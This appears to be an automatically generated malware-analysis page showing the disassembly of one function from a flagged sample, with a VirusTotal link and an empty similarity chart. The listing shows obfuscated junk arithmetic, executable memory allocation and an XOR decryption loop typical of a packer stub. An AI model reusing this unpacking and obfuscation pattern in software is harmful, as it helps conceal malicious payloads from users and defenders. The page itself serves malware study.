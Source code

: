 ```yaml
---
layout: post
title:  "fcn.0040244f @ e69fcfbd512770c44a9d6b90a42edeb0"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040244f
- **Origin (md5):** e69fcfbd512770c44a9d6b90a42edeb0
- **VirusTotal:** [virustotal.com/gui/file/e69fcfbd512770c44a9d6b90a42edeb0][virustotal_ref]

# Code Tags
<span class="tag" id="MEMORY">MEMORY</span>


# Estimated Behaviour
<ul><li class="bhv-desc" id="na">Not Available :(</li></ul>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [0, 0, '<b><a href="/report/fcn.0040244f@e69fcfbd512770c44a9d6b90a42edeb0">fcn.0040244f</a><br>@e69fcfbd512770c44a9d6b90a42edeb0</b><br>', 'point { fill-color: #e0440e; }'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
sub esp, 0xb4
cmp dword[ebp-0x7c], 0x37a
je off.b36
cmp dword[ebp-0x50], 0x1b6
jb off.b36
cmp dword[ebp-0x30], 0x25b
je off.b55
mov eax, dword[ebp-0x60]
add eax, dword[ebp-0x1c]
mov ecx, dword[ebp-0x28]
lea eax, [eax+ecx+0x102]
mov dword[ebp-0x40], eax
cmp dword[ebp-0x20], 0
jne off.b76
cmp dword[ebp-0xc], 0
jbe off.b76
mov eax, dword[ebp-0x18]
add eax, 0x61
mov dword[ebp-0x44], eax
cmp dword[ebp-0x1c], 0
jae off.b107
mov eax, dword[ebp-0x28]
cmp eax, dword[ebp-0x84]
jne off.b107
push 0x40
pop eax
sub eax, dword[ebp-0x2c]
add eax, 0x24e
mov dword[ebp-0x58], eax
mov eax, 0xf2
sub eax, dword[ebp-0x10]
mov dword[ebp-0x60], eax
mov eax, dword[ebp-0x24]
cmp eax, dword[ebp-0x10]
ja off.b147
cmp dword[ebp-0x8c], 0xf1
jae off.b157
cmp dword[ebp-0x20], 0x110
jne off.b157
mov dword[ebp-0x88], 0xfffffd6e
mov eax, dword[ebp-0x34]
sub eax, 0x390
mov ecx, dword[ebp-0x40]
sub ecx, dword[ebp-0x50]
or eax, ecx
mov dword[ebp-0x7c], eax
and dword[ebp-0x1c], 0
jmp off.b189
mov eax, dword[ebp-0x1c]
inc eax
mov dword[ebp-0x1c], eax
cmp dword[ebp-0x1c], 2
jae off.b211
mov eax, dword[ebp-0x14]
sub eax, 0x1ec
sub eax, dword[ebp-0x24]
mov dword[ebp-0x38], eax
jmp off.b182
mov eax, dword[ebp-0x28]
mov ecx, dword[ebp-0x10]
lea eax, [ecx+eax+8]
mov dword[ebp-0x18], eax
mov eax, dword[ebp-0x14]
sub eax, 0x1a5
sub eax, dword[ebp-0x48]
mov dword[ebp-4], eax
mov dword[ebp-0x38], 0x4a7
push dword[ebp-0x7c]
push dword[ebp-0x38]
mov edx, dword[ebp-0x20]
mov ecx, dword[ebp-0x24]
call fcn.00401c69
mov dword[ebp-0x10], eax
cmp dword[ebp-4], 0x214
ja off.b292
cmp dword[ebp-0x48], 0x2ae
jne off.b312
cmp dword[ebp-0x58], 0x341
jne off.b312
imul eax, dword[ebp-0x20], 0x1ed
mov ecx, dword[ebp-0x58]
lea eax, [eax+ecx+0x10e]
mov dword[ebp-0x5c], eax
mov dword[ebp-0xc], 0xa1
mov eax, dword[ebp-0x44]
sub eax, dword[ebp-0x10]
or eax, 0xfffffeb8
mov dword[ebp-0x84], eax
mov eax, dword[ebp-8]
mov ecx, dword[ebp-0x80]
lea eax, [ecx+eax-9]
mov dword[ebp-0x64], eax
mov eax, dword[ebp-0xc]
add eax, 0x11
mov dword[ebp-0xc], eax
mov eax, dword[ebp-0x68]
mov ecx, dword[ebp-0x84]
lea eax, [ecx+eax+0x29b]
mov dword[ebp-0x40], eax
mov dword[ebp-0x28], 0x3be
cmp dword[ebp-0xc], 0xc3
jb off.b336
mov eax, dword[ebp-0x24]
cmp eax, dword[ebp-0x54]
ja off.b410
cmp dword[ebp-8], 0x133
jbe off.b421
mov eax, 0xfffffb97
sub eax, dword[ebp-0x20]
mov dword[ebp-0x40], eax
mov eax, 0x1f8
sub eax, dword[ebp-0x6c]
sub eax, 0x180
mov dword[ebp-0xc], eax
mov eax, dword[ebp-0x74]
sub eax, dword[ebp-0x14]
add eax, dword[ebp-0x88]
add eax, dword[ebp-4]
mov dword[ebp-0xc], eax
mov eax, dword[ebp-0x24]
sub eax, dword[ebp-0x6c]
add eax, 0x8f
mov dword[ebp-0x54], eax
mov dword[ebp-0x44], 0x883
mov eax, dword[ebp-0x40]
add eax, 0x138
mov dword[ebp-0x58], eax
mov eax, dword[ebp-0x14]
add eax, dword[ebp-0x5c]
add eax, dword[ebp-0x20]
mov dword[ebp-0x7c], eax
push 0x86
push 0x40
call dword[sym.imp.KERNEL32.dll_GlobalAlloc]
push eax
call dword[sym.imp.KERNEL32.dll_GlobalFlags]
mov dword[ebp-0x8c], eax
mov eax, dword[ebp-0x48]
mov ecx, dword[ebp-0x20]
lea eax, [ecx+eax+0x15e]
mov dword[ebp-0x18], eax
mov eax, dword[ebp-0x54]
sub eax, 0x2f6
sub eax, dword[ebp-0x50]
mov dword[ebp-0x68], eax
mov eax, dword[ebp-0x64]
sub eax, dword[ebp-0x44]
sub eax, dword[ebp-0x54]
mov dword[ebp-0x80], eax
push 0x40
push 0x1000
push 0xe8050
push 0
call dword[sym.imp.KERNEL32.dll_VirtualAlloc]
mov dword[ebp-0x9c], eax
mov dword[ebp-0x2c], 0x7cd
mov dword[ebp-0x70], 0x686
mov eax, dword[ebp-0x4c]
add eax, 0x127
mov dword[ebp-0x58], eax
mov eax, dword[ebp-0x2c]
add eax, 0x1b
mov dword[ebp-0x2c], eax
mov eax, dword[ebp-0x30]
add eax, 0x363
mov dword[ebp-0x58], eax
mov eax, 0x5df
sub eax, dword[ebp-4]
mov dword[ebp-0x5c], eax
cmp dword[ebp-0x2c], 0x803
jb off.b607
push dword[ebp-0x18]
push dword[ebp-4]
mov edx, dword[ebp-0x80]
mov ecx, dword[ebp-0x68]
call fcn.00401fca
mov dword[ebp-0x78], eax
mov eax, 0x240
sub eax, dword[ebp-8]
sub eax, dword[ebp-0x1c]
mov dword[ebp-0x4c], eax
mov eax, dword[ebp-0x28]
mov ecx, dword[ebp-0x24]
lea eax, [ecx+eax+0x48]
mov dword[ebp-0x84], eax
mov eax, 0x22e
sub eax, dword[ebp-0x50]
add eax, dword[ebp-0x74]
mov dword[ebp-0x1c], eax
mov eax, dword[ebp-0x4c]
add eax, 0x190
sub eax, dword[ebp-0x34]
mov dword[ebp-0x78], eax
mov eax, 0x3a4
sub eax, dword[ebp-0xc]
mov dword[ebp-0x70], eax
cmp dword[ebp-8], 0x1fc
jb off.b774
cmp dword[ebp-4], 0x150
je off.b774
cmp dword[ebp-0x34], 0x25f
jbe off.b788
mov eax, dword[ebp-0x2c]
sub eax, dword[ebp-0x74]
add eax, 0x130
mov dword[ebp-8], eax
mov eax, dword[ebp-0x2c]
sub eax, 0x585
mov dword[ebp-0x10], eax
mov eax, dword[ebp-0x30]
sub eax, dword[ebp-0x28]
sub eax, 0x1da
mov dword[ebp-0x88], eax
mov dword[ebp-0x5c], 0x707
cmp dword[ebp-0x48], 0x31d
je off.b860
mov eax, dword[ebp-0x40]
cmp eax, dword[ebp-0x18]
jae off.b860
cmp dword[ebp-0x5c], 0x3cc
jae off.b860
mov eax, dword[ebp-0x2c]
add eax, 0xdb
mov dword[ebp-0x1c], eax
mov eax, dword[ebp-0x10]
add eax, 0x5c9
mov dword[ebp-0x30], eax
mov eax, dword[ebp-0x9c]
add eax, 0x3b000
mov dword[ebp-0x9c], eax
cmp dword[ebp-0x18], 0
ja off.b900
cmp dword[ebp-0x80], 0x2a
jne off.b907
mov dword[ebp-0x20], 0x8c7
mov eax, dword[ebp-8]
cmp eax, dword[ebp-0x88]
ja off.b942
cmp dword[ebp-0x88], 0x22
je off.b942
mov eax, dword[ebp-0x10]
cmp eax, dword[ebp-0x24]
jne off.b942
mov dword[ebp-0x40], 0x343
mov eax, dword[ebp-0x44]
sub eax, dword[ebp-0x64]
sub eax, dword[ebp-4]
sub eax, 0xc7
mov dword[ebp-0x78], eax
mov dword[ebp-0xa8], 0x481a88
mov eax, dword[ebp-4]
cmp eax, dword[ebp-0x28]
jne off.b983
cmp dword[ebp-0x78], 0
jbe off.b999
mov eax, dword[ebp-0x50]
sub eax, 0x294
or eax, 0xf2
mov dword[ebp-0x6c], eax
mov eax, dword[ebp-0x14]
add eax, 0x290
mov dword[ebp-0x5c], eax
push 8
pop eax
sub eax, dword[ebp-0x4c]
add eax, dword[ebp-0x84]
mov dword[ebp-4], eax
and dword[ebp-0x3c], 0
mov dword[ebp-0x44], 0xffffff75
cmp dword[ebp-0x44], 0x156
je off.b1053
mov eax, dword[ebp-0x70]
cmp eax, dword[ebp-8]
jne off.b1064
mov eax, dword[ebp-0x50]
add eax, 0x239
mov dword[ebp-0x58], eax
mov eax, dword[ebp-0xc]
mov ecx, dword[ebp-0x30]
lea eax, [ecx+eax-0x3e7]
sub eax, dword[ebp-0x44]
mov dword[ebp-0x54], eax
mov eax, 0x270
sub eax, dword[ebp-0x6c]
add eax, 0x27
mov dword[ebp-0x40], eax
mov eax, dword[ebp-0x18]
sub eax, dword[ebp-0x60]
sub eax, dword[ebp-0x20]
mov dword[ebp-0xc], eax
mov dword[ebp-0x98], 0xbee1f885
mov eax, dword[ebp-0x58]
cmp eax, dword[ebp-0x18]
ja off.b1133
cmp dword[ebp-0x68], 0x65
jae off.b1149
mov eax, dword[ebp-0x18]
mov ecx, dword[ebp-0x38]
lea eax, [ecx+eax-0x62b]
mov dword[ebp-0x20], eax
cmp dword[ebp-0x10], 0x256
jne off.b1178
cmp dword[ebp-0x1c], 0
jne off.b1178
mov eax, dword[ebp-0x5c]
sub eax, 0x137
sub eax, dword[ebp-0x68]
mov dword[ebp-0x44], eax
mov dword[ebp-0xa0], 0x407be3c9
mov eax, 0xfffffcf5
sub eax, dword[ebp-8]
add eax, dword[ebp-0x24]
mov dword[ebp-0xc], eax
mov eax, dword[ebp-0x6c]
mov ecx, dword[ebp-0x8c]
lea eax, [ecx+eax+0x2d5]
mov dword[ebp-0x30], eax
mov dword[ebp-0x90], 0xa7929720
mov eax, dword[ebp-0x50]
sub eax, dword[ebp-0x48]
sub eax, dword[ebp-0x60]
sub eax, 0x1e1
mov dword[ebp-0x1c], eax
mov dword[ebp-0xa4], 0xaca4d411
mov eax, dword[ebp-0x70]
cmp eax, dword[ebp-0x68]
jae off.b1291
cmp dword[ebp-0x6c], 0x373
jae off.b1291
mov eax, dword[ebp-8]
mov ecx, dword[ebp-0x78]
lea eax, [ecx+eax-0x181]
mov dword[ebp-0x44], eax
push 7
pop eax
sub eax, dword[ebp-0x10]
add eax, dword[ebp-4]
mov dword[ebp-0x64], eax
mov dword[ebp-0x94], 0x8bf1e28d
mov eax, dword[ebp-0x48]
add eax, 0x22a
sub eax, dword[ebp-0x20]
sub eax, 0x386
mov dword[ebp-0x34], eax
mov dword[ebp-0xb0], 0x1775fcbc
cmp dword[ebp-4], 0x2f2
jne off.b1366
cmp dword[ebp-0x58], 0
je off.b1380
cmp dword[ebp-0x28], 0x196
je off.b1380
mov eax, 0x2d9
sub eax, dword[ebp-0x14]
sub eax, 0x11
mov dword[ebp-0x1c], eax
mov eax, 0x3a1
sub eax, dword[ebp-0xc]
sub eax, dword[ebp-4]
add eax, 0x2bc
mov dword[ebp-0x84], eax
mov eax, 0xfffffee1
sub eax, dword[ebp-0x10]
mov dword[ebp-0x28], eax
and dword[ebp-0x3c], 0
cmp dword[ebp-0x3c], 0xabe8
jae off.b2927
mov eax, dword[ebp-0x2c]
mov ecx, dword[ebp-0x50]
lea eax, [ecx+eax-0x28b]
mov dword[ebp-0x38], eax
mov eax, dword[ebp-0x4c]
cmp eax, dword[ebp-0x30]
jbe off.b1469
cmp dword[ebp-0x18], 0xa3
jb off.b1469
cmp dword[ebp-4], 0
jb off.b1476
mov dword[ebp-0x4c], 0xfffffd9b
mov eax, dword[ebp-0x98]
xor eax, dword[ebp-0xa0]
mov dword[ebp-0x98], eax
mov eax, dword[ebp-0x14]
cmp eax, dword[ebp-0x58]
je off.b1517
cmp dword[ebp-0x70], 0x16b
je off.b1534
cmp dword[ebp-0x58], 0
je off.b1534
mov eax, 0x532
sub eax, dword[ebp-0x68]
add eax, dword[ebp-0x84]
mov dword[ebp-0x74], eax
cmp dword[ebp-0x64], 0
je off.b1548
mov eax, dword[ebp-8]
cmp eax, dword[ebp-0x1c]
jbe off.b1564
mov eax, 0xec
sub eax, dword[ebp-0x50]
sub eax, 0x2c1
mov dword[ebp-0x64], eax
mov eax, dword[ebp-0xa0]
xor eax, dword[ebp-0x90]
mov dword[ebp-0xa0], eax
mov eax, dword[ebp-0x54]
add eax, 0x107
sub eax, dword[ebp-0x20]
mov dword[ebp-0x5c], eax
cmp dword[ebp-0x48], 0x114
jne off.b1633
mov eax, dword[ebp-0x10]
cmp eax, dword[ebp-0x30]
jb off.b1633
cmp dword[ebp-0x18], 0x3c2
jae off.b1633
mov eax, dword[ebp-0x6c]
or eax, 0x754
mov dword[ebp-0x80], eax
mov eax, dword[ebp-0x94]
xor eax, dword[ebp-0x90]
mov dword[ebp-0x94], eax
mov eax, dword[ebp-0x2c]
mov ecx, dword[ebp-0x34]
lea eax, [ecx+eax+0x1cf]
mov dword[ebp-0x48], eax
mov eax, dword[ebp-0x14]
mov ecx, dword[ebp-0x38]
lea eax, [ecx+eax+0xb6]
mov dword[ebp-0x4c], eax
mov eax, dword[ebp-0xa4]
xor eax, dword[ebp-0x94]
mov dword[ebp-0xa4], eax
mov eax, dword[ebp-0x40]
mov ecx, dword[ebp-0x88]
lea eax, [ecx+eax-0xc8]
mov dword[ebp-0x60], eax
mov eax, dword[ebp-0x90]
xor eax, dword[ebp-0xa4]
mov dword[ebp-0x90], eax
mov eax, dword[ebp-0x5c]
cmp eax, dword[ebp-0x18]
jbe off.b1774
mov eax, dword[ebp-8]
cmp eax, dword[ebp-0x54]
jae off.b1774
cmp dword[ebp-0x28], 0x139
jae off.b1774
mov eax, 0x73b
sub eax, dword[ebp-0x34]
mov dword[ebp-0x78], eax
mov eax, dword[ebp-0x94]
add eax, dword[ebp-0xb0]
mov dword[ebp-0x94], eax
mov eax, dword[ebp-0x4c]
sub eax, dword[ebp-0x78]
sub eax, dword[ebp-0x60]
sub eax, 0x2b9
mov dword[ebp-0x74], eax
mov eax, dword[ebp-0x90]
xor eax, dword[ebp-0x98]
mov dword[ebp-0x90], eax
cmp dword[ebp-0x44], 0
jae off.b1851
cmp dword[ebp-0xc], 0x2d7
jne off.b1861
cmp dword[ebp-0x88], 0x7c
jbe off.b1861
mov dword[ebp-0x8c], 0x2b6
cmp dword[ebp-0x8c], 0
jne off.b1887
cmp dword[ebp-0xc], 0x196
jne off.b1898
mov eax, dword[ebp-0x60]
cmp eax, dword[ebp-0x4c]
jbe off.b1898
mov eax, dword[ebp-0x18]
sub eax, 0xbe
mov dword[ebp-0xc], eax
mov eax, dword[ebp-0x9c]
add eax, dword[ebp-0x3c]
mov dword[ebp-0xb4], eax
cmp dword[ebp-0x28], 0x37d
je off.b1942
cmp dword[ebp-0x40], 0x372
jae off.b1942
mov eax, 0x18a
sub eax, dword[ebp-0x40]
mov dword[ebp-0x60], eax
mov eax, 0xaf
sub eax, dword[ebp-0x68]
add eax, dword[ebp-0x70]
mov dword[ebp-0x10], eax
mov eax, dword[ebp-0x14]
cmp eax, dword[ebp-0x4c]
jne off.b1970
cmp dword[ebp-0x78], 0
jb off.b1981
mov eax, dword[ebp-0x5c]
add eax, 0x5ce
mov dword[ebp-0x44], eax
mov eax, dword[ebp-0xa8]
add eax, dword[ebp-0x3c]
mov dword[ebp-0xac], eax
mov eax, dword[ebp-0x7c]
add eax, 0x3f7
mov dword[ebp-0x38], eax
mov eax, dword[ebp-0x2c]
add eax, 0x2d
sub eax, dword[ebp-0x74]
mov dword[ebp-0x10], eax
mov eax, dword[ebp-0x6c]
sub eax, 0x2d6
sub eax, dword[ebp-0x2c]
mov dword[ebp-4], eax
cmp dword[ebp-0x7c], 0x154
jb off.b2050
mov eax, dword[ebp-0x74]
cmp eax, dword[ebp-8]
je off.b2056
cmp dword[ebp-0x6c], 0x53
jne off.b2067
mov eax, 0x361
sub eax, dword[ebp-8]
mov dword[ebp-0x58], eax
mov eax, dword[ebp-0xac]
mov eax, dword[eax]
xor eax, dword[ebp-0x98]
mov ecx, dword[ebp-0xb4]
mov dword[ecx], eax
mov eax, dword[ebp-0x30]
add eax, dword[ebp-0x24]
add eax, dword[ebp-0x14]
mov dword[ebp-0x64], eax
mov eax, dword[ebp-0x20]
sub eax, dword[ebp-0x34]
sub eax, 0x1cd
mov dword[ebp-0x6c], eax
mov eax, dword[ebp-0x50]
add eax, dword[ebp-0x5c]
sub eax, dword[ebp-0x24]
mov dword[ebp-0x34], eax
mov eax, 0x1eb
sub eax, dword[ebp-0x30]
sub eax, 0x238
mov dword[ebp-0x74], eax
mov eax, dword[ebp-0x14]
mov ecx, dword[ebp-0x50]
lea eax, [ecx+eax-0x4d4]
mov dword[ebp-0x24], eax
mov dword[ebp-0x6c], 0x162
mov eax, dword[ebp-4]
cmp eax, dword[ebp-0x10]
jb off.b2191
mov eax, dword[ebp-0x4c]
cmp eax, dword[ebp-0x30]
je off.b2207
cmp dword[ebp-0x70], 0x1d8
ja off.b2207
mov eax, dword[ebp-0x48]
mov ecx, dword[ebp-0x74]
lea eax, [ecx+eax-0x99]
mov dword[ebp-0x70], eax
mov eax, dword[ebp-0x54]
add eax, 0x48a
mov dword[ebp-4], eax
mov eax, dword[ebp-0x34]
mov ecx, dword[ebp-0x10]
lea eax, [ecx+eax+0x42]
mov dword[ebp-0x48], eax
mov eax, dword[ebp-0x3c]
add eax, 0x32080
mov dword[ebp-0x3c], eax
mov eax, dword[ebp-0x24]
cmp eax, dword[ebp-0x5c]
jb off.b2259
cmp dword[ebp-0x18], 0x35b
je off.b2270
mov eax, 0x54d
sub eax, dword[ebp-0x20]
mov dword[ebp-0x18], eax
mov eax, dword[ebp-0xc]
cmp eax, dword[ebp-0x44]
jne off.b2307
cmp dword[ebp-0x4c], 0x3cb
jb off.b2307
cmp dword[ebp-0x74], 0
jbe off.b2307
mov eax, dword[ebp-0x70]
sub eax, dword[ebp-0x14]
add eax, 0xae
mov dword[ebp-0x28], eax
mov eax, dword[ebp-0x14]
mov ecx, dword[ebp-0x2c]
lea eax, [ecx+eax+0x39a]
mov dword[ebp-0x28], eax
cmp dword[ebp-0x44], 0
je off.b2361
mov eax, dword[ebp-0x7c]
cmp eax, dword[ebp-0x64]
jae off.b2361
mov eax, dword[ebp-0x4c]
cmp eax, dword[ebp-8]
jb off.b2361
mov eax, 0x2f2
sub eax, dword[ebp-0x54]
sub eax, 0x3cc
mov dword[ebp-0x78], eax
mov eax, 0xc7
sub eax, dword[ebp-0x68]
mov dword[ebp-0x6c], eax
push 0x4a
pop eax
sub eax, dword[ebp-0x64]
sub eax, 0x264
mov dword[ebp-0x14], eax
mov eax, dword[ebp-0x10]
sub eax, dword[ebp-0x50]
add eax, 0x377
mov dword[ebp-0x20], eax
mov eax, dword[ebp-8]
add eax, dword[ebp-0x2c]
sub eax, dword[ebp-8]
sub eax, 0x7c
mov dword[ebp-0x40], eax
and dword[ebp-8], 0
jmp off.b2428
mov eax, dword[ebp-8]
inc eax
mov dword[ebp-8], eax
cmp dword[ebp-8], 1
jae off.b2455
push 0x58
pop eax
sub eax, dword[ebp-0x48]
mov ecx, dword[ebp-0x28]
lea eax, [eax+ecx-0x22c]
mov dword[ebp-0x80], eax
jmp off.b2421
mov eax, dword[ebp-0x18]
mov ecx, dword[ebp-0x24]
lea eax, [ecx+eax+0x3a1]
mov dword[ebp-0x60], eax
mov eax, dword[ebp-0x3c]
sub eax, 0xd04ad
mov dword[ebp-0x3c], eax
mov eax, dword[ebp-0x38]
cmp eax, dword[ebp-0x34]
je off.b2498
mov eax, dword[ebp-0x10]
cmp eax, dword[ebp-0x34]
jne off.b2517
mov eax, dword[ebp-0x30]
add eax, 0x182
sub eax, dword[ebp-0x4c]
add eax, 0x2be
mov dword[ebp-0x10], eax
mov eax, dword[ebp-0x50]
cmp eax, dword[ebp-0x38]
jb off.b2536
mov eax, dword[ebp-0x8c]
cmp eax, dword[ebp-0x18]
je off.b2543
mov dword[ebp-0x14], 0x654
mov eax, dword[ebp-8]
add eax, 0x693
or eax, dword[ebp-0x70]
mov dword[ebp-0x24], eax
cmp dword[ebp-0x34], 0x331
jne off.b2583
mov eax, dword[ebp-0x48]
cmp eax, dword[ebp-0x68]
jae off.b2599
cmp dword[ebp-0x38], 0x136
jne off.b2599
mov eax, dword[ebp-0x7c]
mov ecx, dword[ebp-0x88]
lea eax, [ecx+eax+0x11]
mov dword[ebp-0x1c], eax
mov eax, dword[ebp-0x84]
sub eax, 0xc6
sub eax, dword[ebp-0x4c]
mov dword[ebp-0x38], eax
cmp dword[ebp-8], 0x86
jbe off.b2650
cmp dword[ebp-0x1c], 0xdc
jae off.b2650
cmp dword[ebp-0x78], 0x1dd
jb off.b2650
mov dword[ebp-0x28], 0x5ad
mov eax, dword[ebp-0x88]
cmp eax, dword[ebp-0x8c]
jne off.b2680
mov eax, dword[ebp-0x44]
cmp eax, dword[ebp-0x7c]
je off.b2680
mov eax, dword[ebp-0x64]
cmp eax, dword[ebp-4]
jae off.b2691
mov eax, dword[ebp-0x30]
sub eax, 0x8fb
mov dword[ebp-0x80], eax
mov dword[ebp-0x40], 0x39d
mov eax, dword[ebp-0x3c]
add eax, 0xb6a42
mov dword[ebp-0x3c], eax
mov eax, dword[ebp-0x38]
mov ecx, dword[ebp-0x5c]
lea eax, [ecx+eax+0xab]
mov dword[ebp-0x80], eax
mov eax, dword[ebp-0x1c]
add eax, dword[ebp-0x2c]
mov ecx, dword[ebp-0x34]
lea eax, [eax+ecx-0x372]
mov dword[ebp-8], eax
mov eax, dword[ebp-0x10]
mov ecx, dword[ebp-0x80]
lea eax, [ecx+eax-0x27f]
mov dword[ebp-0x84], eax
mov eax, dword[ebp-0x18]
add eax, dword[ebp-0x64]
sub eax, dword[ebp-0x34]
add eax, dword[ebp-0x54]
mov dword[ebp-0xc], eax
mov eax, dword[ebp-0x50]
sub eax, 0x165
mov dword[ebp-0x70], eax
mov eax, dword[ebp-0x58]
cmp eax, dword[ebp-0x1c]
jne off.b2815
cmp dword[ebp-0x68], 0
jbe off.b2815
mov eax, dword[ebp-4]
add eax, dword[ebp-0x20]
add eax, dword[ebp-0x1c]
mov dword[ebp-0x14], eax
mov eax, dword[ebp-0x48]
sub eax, dword[ebp-0x54]
mov ecx, dword[ebp-0x24]
lea eax, [eax+ecx+0x1a5]
mov dword[ebp-0x38], eax
cmp dword[ebp-0x54], 0xa4
jbe off.b2862
mov eax, dword[ebp-0x70]
cmp eax, dword[ebp-0x54]
jbe off.b2862
mov eax, dword[ebp-0x2c]
add eax, 0x4d0
mov dword[ebp-0x6c], eax
and dword[ebp-0x14], 0
jmp off.b2875
mov eax, dword[ebp-0x14]
inc eax
mov dword[ebp-0x14], eax
cmp dword[ebp-0x14], 3
jae off.b2900
mov eax, 0x1f2
sub eax, dword[ebp-0x24]
sub eax, dword[ebp-0x38]
sub eax, dword[ebp-0x78]
mov dword[ebp-8], eax
jmp off.b2868
mov eax, dword[ebp-0x3c]
add eax, 0x30e4b
mov dword[ebp-0x3c], eax
mov eax, dword[ebp-0x3c]
sub eax, 0x4945c
mov dword[ebp-0x3c], eax
jmp off.b1417
push 0
push 0
call sub.USER32.dll_ImpersonateDdeClientWindow
mov dword[ebp-0x18], eax
mov eax, dword[ebp-0x9c]
add eax, 0x8875
mov dword[0x4d51d8], eax
and dword[ebp-4], 0
jmp off.b2968
mov eax, dword[ebp-4]
inc eax
mov dword[ebp-4], eax
cmp dword[ebp-4], 3
jae off.b2987
mov eax, 0xfffffed7
sub eax, dword[ebp-0x48]
mov dword[ebp-0x30], eax
jmp off.b2961
push dword[ebp-0xc]
push dword[ebp-0x34]
mov edx, dword[ebp-0x80]
mov ecx, dword[ebp-0x40]
call fcn.00401df9
mov dword[ebp-0x18], eax
mov eax, dword[ebp-0x68]
add eax, 0xc8
mov dword[ebp-0x1c], eax
mov eax, dword[ebp-0x74]
mov ecx, dword[ebp-0x68]
lea eax, [ecx+eax-0x248]
mov dword[ebp-0x28], eax
mov eax, dword[ebp-0x20]
cmp eax, dword[ebp-0x24]
jae off.b3065
mov eax, dword[ebp-4]
cmp eax, dword[ebp-0x1c]
jne off.b3065
mov eax, dword[ebp-0x78]
add eax, dword[ebp-0x34]
sub eax, dword[ebp-0x48]
sub eax, dword[ebp-4]
mov dword[ebp-0x40], eax
push dword[ebp-0x7c]
push dword[ebp-0x54]
push dword[ebp-0xc]
mov edx, dword[ebp-4]
mov ecx, dword[ebp-0xc]
call fcn.00401c92
mov dword[ebp-0x64], eax
mov eax, dword[ebp-0x84]
cmp eax, dword[ebp-0x38]
jb off.b3117
cmp dword[ebp-0x8c], 0x2b8
je off.b3132
cmp dword[ebp-0x60], 0
jb off.b3132
mov eax, dword[ebp-0xc]
add eax, dword[ebp-0x8c]
or eax, dword[ebp-0x58]
mov dword[ebp-0x30], eax
cmp dword[ebp-0x74], 0x38f
jb off.b3149
mov eax, dword[ebp-0xc]
cmp eax, dword[ebp-0x30]
jae off.b3160
mov eax, dword[ebp-0x10]
add eax, 0x198
mov dword[ebp-0x74], eax
mov eax, dword[ebp-0x60]
cmp eax, dword[ebp-0x70]
jb off.b3174
cmp dword[ebp-0x60], 0x5c
jae off.b3185
mov eax, dword[ebp-0xc]
add eax, 0xac
mov dword[ebp-0x38], eax
mov eax, dword[ebp-0x28]
sub eax, 0x36a
mov ecx, 0x265
sub ecx, dword[ebp-0x60]
and eax, ecx
mov dword[ebp-0x64], eax
mov esp, ebp
pop ebp
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/e69fcfbd512770c44a9d6b90a42edeb0